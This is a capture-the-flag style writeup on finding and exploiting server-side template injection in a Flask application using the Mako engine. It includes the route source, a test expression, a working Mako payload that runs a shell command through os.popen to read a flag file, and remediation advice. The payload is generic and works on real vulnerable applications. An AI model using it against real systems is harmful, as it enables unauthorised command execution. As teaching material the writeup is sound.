

# 🕵️‍♂️ Writeup: Exploiting SSTI in Spooky Text Generator

An in-depth look at discovering and exploiting a **Server-Side Template Injection (SSTI)** vulnerability within a Flask application utilizing the **Mako** template engine.

---

## 🌐 01. Initial Reconnaissance
Upon navigating to the target IP, we are presented with a "Spooky Text Generator." The application takes user input and reflects it back in four different stylized fonts.



### **The Code Analysis**
Reviewing the source code (`application/blueprints/routes.py`), we identify that the application uses **Flask-Mako** for rendering templates.

```python
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')
    if text:
        converted = spookify(text)
        return render_template('index.html', output=converted)
    
    return render_template('index.html', output='')
```
Because **Font 4** returns the raw, unmodified string and passes it directly to `render_template`, the application is vulnerable to injection.

* * * * *

🛠️ 02. Exploitation Phase
--------------------------

### **Confirming the Injection**

We first test if the template engine evaluates expressions by injecting a simple mathematical operation.

-   **Input:** `${7*7}`

-   **Result:** The application calculates the result and renders **49**.
-   

### **Gaining Remote Code Execution (RCE)**

Since Mako allows access to Python's `self` object, we can leverage it to access the `os` module and execute system-level commands.

**Final Exploit Payload:**

Code snippet

```
${self.module.cache.util.os.popen("cat /flag.txt").read()}

```
You could do the rest pretty easily

* * * * *

🏁 03. Conclusion & Results
---------------------------

By submitting the payload through the `text` parameter, the server executes the command and returns the flag content in the response body.

| **Feature** | **Details** |
| --- | --- |
| **Vulnerability Type** | Server-Side Template Injection (SSTI) |
| **Template Engine** | Mako |
| **Impact** | Full System Access (RCE) |

* * * * *

### 🛡️ Remediation

To fix this, developers should never pass raw user input into a template. Instead, use Contextual Auto-Escaping or explicitly escape variables using Mako's built-in filters:

${variable | h}
